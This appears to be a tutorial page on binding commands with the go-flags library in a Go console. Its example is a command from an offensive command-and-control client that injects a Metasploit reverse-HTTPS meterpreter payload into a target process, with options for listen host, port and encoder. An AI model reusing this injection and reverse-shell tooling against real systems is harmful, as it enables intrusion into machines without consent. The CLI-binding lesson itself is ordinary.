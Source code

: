 

The following function declares a command struct with some arguments and option groups:
Please see the `examples/commands.go` file for other examples, or refer to the [go-flags Go doc](http://godoc.org/github.com/jessevdk/go-flags)

```go
// MSFInject - Inject an MSF payload into a process.
type MSFInject struct {
	Positional struct {
		PID uint32 `description:"process ID to inject into" required:"1-1"`
	} `positional-args:"yes" required:"yes"`
	MSFOptions `group:"msf options"`
}
```

These are options that we defined in a separate struct, for being reusable by other commands maybe. 
Please refer to the go-flags documentation for a list of available metadata fields.

```go
// MSFOptions - Options applying to all msf-related execution commands.
type MSFOptions struct {
	Payload    string `long:"payload" short:"P" description:"payload type (auto-completed)" default:"meterpreter_reverse_https" value-name:"compatible payloads"`
	LHost      string `long:"lhost" short:"l" description:"listen host" required:"yes"`
	LPort      int    `long:"lport" short:"p" description:"listen port" default:"4444"`
	Encoder    string `long:"encoder" short:"e" description:"MSF encoder" value-name:"msf encoders"`
	Iterations int    `long:"iterations" short:"i" description:"iterations of the encoder" default:"1"`
}
```

The body of the function is pretty self-explanating:

```go
// Execute - Inject an MSF payload into a process.
func (m *MSFInject) Execute(args []string) (err error) {
	session := cctx.Context.Sliver.Session
	if session == nil {
		return
	}

	payloadName := m.Payload
	lhost := m.LHost
	lport := m.LPort
	encoder := m.Encoder
	iterations := m.Iterations

	if lhost == "" {
		fmt.Printf(util.Error+"Invalid lhost '%s', see `help %s`\n", lhost, consts.MsfStr)
		return
	}

	ctrl := make(chan bool)
	msg := fmt.Sprintf("Injecting payload %s %s/%s -> %s:%d ...",
		payloadName, session.OS, session.Arch, lhost, lport)
	go spin.Until(msg, ctrl)
	_, err = transport.RPC.MsfRemote(context.Background(), &clientpb.MSFRemoteReq{
		Payload:    payloadName,
		LHost:      lhost,
		LPort:      uint32(lport),
		Encoder:    encoder,
		Iterations: int32(iterations),
		PID:        m.Positional.PID,
		Request:    ContextRequest(session),
	})
	ctrl <- true
	<-ctrl
	if err != nil {
		fmt.Printf(util.Error+"%s\n", err)
	} else {
		fmt.Printf(util.Info + "Executed payload on target\n")
	}
	return nil
}
```


## Binding the commands

Now we declare the function that registers the command to the console parser defined [here](https://github.com/maxlandon/readline/wiki/Interfacing-With-Go-Flags).

```go
func bindCommands(parser *flags.Parser) (err error) {

	// core console
	// ----------------------------------------------------------------------------------------
	ex, err := parser.AddCommand("exit", // Command string
		"Exit from the client/server console", // Description (completions, help usage)
		"",                                    // Long description
		&Exit{})                               // Command implementation
	ex.Aliases = []string{"quit"}                  // Command aliases

        // You can further set many things from here with ex variable, which is now a *flags.Command !

	return
}

```
